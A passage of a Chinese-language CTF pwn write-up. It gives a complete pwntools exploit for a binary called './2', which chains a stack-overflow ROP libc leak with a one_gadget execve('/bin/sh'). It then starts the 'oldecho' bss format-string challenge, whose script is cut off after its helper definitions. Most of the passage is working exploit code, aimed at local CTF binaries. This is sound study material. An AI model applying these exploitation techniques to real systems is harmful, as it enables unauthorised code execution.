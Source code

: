 ```python
from pwn import *
context.log_level='debug'
context.arch="amd64"
rdi=0x0000000000401363
ret=0x000000000040101a
rsi=0x0000000000401361
bss=0x404000+0x500
levae=0x4011FF
'''
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
r=process('./2')
def pwn():
    libc=ELF("./libc-2.31.so")
    elf=ELF('./2')
    pay=b'\x00'*0x30+p64(bss-0x8)+p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(levae)
    pay=pay.ljust(0x950,b"\x00")
    #gdb.attach(r)
    r.sendline(pay)
    #raw_input()
    r.recvuntil("\n")
    leak=u64(r.recv(6)+b'\x00'*2)-libc.sym['puts']
    print(hex(leak))
    r.sendline(b'\x00'*0x30+p64(1)+p64(leak+0xe6c81))

pwn()
r.interactive()
```
## oldecho(bss段格式化字符串)
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-604c27ae37a7cc4f.png)
![image.png](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-72cbc22b458df0f6.png)

题目有循环的格式化字符串漏洞，在之前关掉了标准输出流，给了一个栈地址，开了沙箱。这题最后也可以leaveret栈迁移到bss，这里直接在环境变量区域写flag了。
要用orw但关闭了标准输出流

```python
from pwn import*
p = process('./oldecho')
elf = ELF("./oldecho")
libc = elf.libc
context.log_level='debug'

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
```